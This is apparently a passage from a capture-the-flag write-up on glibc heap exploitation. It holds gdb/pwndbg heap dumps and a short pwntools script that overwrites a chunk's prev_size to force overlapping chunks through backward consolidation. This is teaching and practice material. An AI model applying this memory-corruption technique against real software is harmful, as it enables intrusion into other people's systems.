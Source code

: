 0x14c11a0:	0x3232323232323232	0x3232323232323232
0x14c11b0:	0x3232323232323232	0x3232323232323232
0x14c11c0:	0x3232323232323232	0x3232323232323232
0x14c11d0:	0x3232323232323232	0x3232323232323232
0x14c11e0:	0x3232323232323232	0x3232323232323232
0x14c11f0:	0x3232323232323232	0x3232323232323232
0x14c1200:	0x3232323232323232	0x3232323232323232
0x14c1210:	0x3232323232323232	0x3232323232323232
0x14c1220:	0x3232323232323232	0x3232323232323232
0x14c1230:	0x3232323232323232	0x3232323232323232
0x14c1240:	0x3232323232323232	0x3232323232323232
0x14c1250:	0x3232323232323232	0x3232323232323232
0x14c1260:	0x3232323232323232	0x3232323232323232
0x14c1270:	0x3232323232323232	0x3232323232323232
0x14c1280:	0x3232323232323232	0x3232323232323232
0x14c1290:	0x0000000000000270	0x0000000000000020
0x14c12a0:	0x3333333333333333	0x3333333333333333
0x14c12b0:	0x0000000000000000	0x0000000000020ce1
0x14c12c0:	0x0000000000000000	0x0000000000000000
```
add new chunk, to make fd the positon 0x14c1130 above
```python
add(0xf0, '0' * 0xf0)
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
pause()
add(0xf0, 'x' * 0x10)

p.interactive()
```
```gdb -q -p `pidof pwn` -ex "b *0x400A6F" -ex "c"```
```
pwndbg> heapbase
heapbase : 0x6c3000
pwndbg> ni
pwndbg> x/90gx 0x6c3000
0x6c3000:	0x0000000000000000	0x0000000000000021
0x6c3010:	0x0000000000400896	0x00000000004008b1
0x6c3020:	0x0000000000000000	0x0000000000000101
0x6c3030:	0x00007fed0c14bdd8	0x00007fed0c14bdd8
0x6c3040:	0x3030303030303030	0x3030303030303030
0x6c3050:	0x3030303030303030	0x3030303030303030
0x6c3060:	0x3030303030303030	0x3030303030303030
0x6c3070:	0x3030303030303030	0x3030303030303030
0x6c3080:	0x3030303030303030	0x3030303030303030
0x6c3090:	0x3030303030303030	0x3030303030303030
0x6c30a0:	0x3030303030303030	0x3030303030303030
0x6c30b0:	0x3030303030303030	0x3030303030303030
0x6c30c0:	0x3030303030303030	0x3030303030303030
0x6c30d0:	0x3030303030303030	0x3030303030303030
0x6c30e0:	0x3030303030303030	0x3030303030303030
0x6c30f0:	0x3030303030303030	0x3030303030303030
0x6c3100:	0x3030303030303030	0x3030303030303030
0x6c3110:	0x3030303030303030	0x3030303030303030
0x6c3120:	0x0000000000000100	0x0000000000000171
0x6c3130:	0x00007fed0c14bb78	0x00007fed0c14bb78
0x6c3140:	0x3131313131313131	0x3131313131313131
0x6c3150:	0x3131313131313131	0x3131313131313131
0x6c3160:	0x3131313131313131	0x3131313131313131
0x6c3170:	0x3131313131313131	0x3131313131313131